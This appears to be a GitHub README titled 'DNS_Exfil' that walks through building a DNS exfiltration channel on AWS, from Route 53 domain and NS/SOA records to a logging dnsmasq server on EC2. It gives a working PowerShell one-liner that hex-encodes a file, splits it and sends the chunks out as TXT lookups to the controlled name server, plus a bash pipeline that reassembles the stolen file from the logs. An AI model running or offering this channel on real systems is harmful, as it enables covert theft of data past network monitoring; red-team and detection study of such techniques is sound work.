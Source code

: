 # DNS_Exfil
DNS Exfiltration Setup on AWS

## Step 1: Purchase Domain Name on Route 53
Verify your email!

## Step 2: Create EC2 instance to host DNS service and logging
Use Amazon Linux OS, or any Linux OS of your preference.
Logging will contain DNS requests with encoded information, which we can then grep and cut later.

## Step 3: Create Security Groups
Inbound - Allow ICMP, TCP DNS, UDP DNS, SSH  
Outbound - Any  

## Step 4: Install dnsmasq on EC2 instance and configure it
sudo yum install dnsmasq  
sudo nano /etc/dnsmasq.conf then input the content below, right at the bottom of the config file  
  
listen-address=<EC2's private IP>  
address=/#/<EC2's public IP>  
log-queries  
log-facility=/var/log/dnsmasq.log  
  
Restart the VM, or find a way to restart dnsmasq (sudo systemctl restart systemd-networkd.service)  

sudo dnsmasq  

## Step 5: Go to Route 53 config, note down default SOA and NS records
**Record Name:** bhealthen.com  
**Type:** SOA  
**Value:** ns-1714.awsdns-22.co.uk. awsdns-hostmaster.amazon.com. 1 7200 900 1209600 86400  
**TTL:** 900  

**Record Name:** bhealthen.com  
**Type:** NS  
**Value:**  
ns-1714.awsdns-22.co.uk.  
ns-1071.awsdns-05.org.  
ns-577.awsdns-08.net.  
ns-113.awsdns-14.com.  
**TTL:** 172800  

![image](https://github.com/benlee105/DNS_Exfil/assets/62729308/f096c51f-a06d-4df4-b8a9-e1ad61579d8f)

## Step 6: Create A Record to point from record name to your EC2 instance
**Record Name:** ns1.bhealthen.com  
**Type:** A  
**Value:** 54.179.112.60
**TTL:** 300  

**Record Name:** ns2.bhealthen.com  
**Type:** A  
**Value:** 54.179.112.60
**TTL:** 300  

## Step 7: Modify existing NS Record to point to your NS records, which point to your EC2 instance
**Record Name:** bhealthen.com  
**Type:** NS  
**Value:**  
ns1.bhealthen.com  
ns2.bhealthen.com  
**TTL:** 60  

## Step 8: Modify existing SOA record to point to your NS record, which points to your EC2 instance
**Record Name:** bhealthen.com  
**Type:** SOA  
**Value:** ns1.bhealthen.com. admin.bhealthen.com 1 7200 900 1209600 86400  
**TTL:** 60  

## Step 9: Use CMD to nslookup as a test
nslookup -q=TXT 12332145343dafdsa234234123123453asdf234sadfsadfasdf ns1.bhealthen.com  

![image](https://github.com/benlee105/DNS_Exfil/assets/62729308/79dc6562-8f73-41bd-89ac-9db7701c0946)


## Step 10: Check your DNS logs in EC2
sudo cat /var/log/dnsmasq.log | grep -F "[TXT]"  

![image](https://github.com/benlee105/DNS_Exfil/assets/62729308/ff2684c5-136f-4ab2-8da7-88c17f0aa1a2)


## Step 11: Powershell command to hex encode a file, split, and do nslookup IMPROVEMENT POINT TO REMOVE encoded.hex

`certutil -encodehex ToExfil.txt encoded.hex 12; $buffer = Get-Content .\encoded.hex; $split = $buffer -split '(.{50})' -ne ''; foreach ($line in $split) {nslookup -q=TXT "$Line.bhealthen.com" ns1.bhealthen.com; sleep 5} `

![image](https://github.com/benlee105/DNS_Exfil/assets/62729308/17905ffc-ee42-4f8d-b801-7f837d3da555)


## Step 12: Use a BASH command to read contents from TXT requests, remove unnecessary content, remove line break, remove spacing

`sudo cat /var/log/dnsmasq.log | grep -F '[TXT]' | cut -f 7 -d ' ' | cut -f 1 -d '.' | sed -z 's/\n/ /g' | sed -e 's/[[:space:]]//g' > output`  
`sudo cat output | xxd -p -r > ToExfil.txt | cat ToExfil.txt`  

![image](https://github.com/benlee105/DNS_Exfil/assets/62729308/68856338-b515-43e4-a873-d86df3ca9b27)

